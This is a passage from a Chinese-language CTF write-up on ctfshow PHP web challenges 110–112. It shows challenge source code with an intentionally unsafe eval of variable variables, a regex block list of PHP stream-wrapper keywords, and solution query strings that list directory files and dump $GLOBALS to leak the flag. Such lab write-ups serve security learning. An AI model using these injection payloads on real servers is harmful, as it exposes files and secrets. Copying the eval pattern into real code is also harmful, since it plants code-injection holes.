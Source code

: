 添加了过滤，修复了109构造闭合rce的非预期

利用 FilesystemIterator 获取指定目录下的所有文件
[PHP: FilesystemIterator - Manual](https://www.php.net/manual/zh/class.filesystemiterator.php)
getcwd获取当前路径

```
?v1=FilesystemIterator&v2=getcwd
```

## 111-全局变量GLOBALS

```php
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
```

> 利用全局变量GLOBALS
> $GLOBALS — 引用全局作用域中可用的全部变量 
> 一个包含了全部变量的全局组合数组。变量的名字就是数组的键。

把$GLOBALS赋值给v2，然后v2再赋值给v1,即可将全部变量输出

```
?v1=ctfshow&v2=GLOBALS
```

## 112-is_file

```php
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
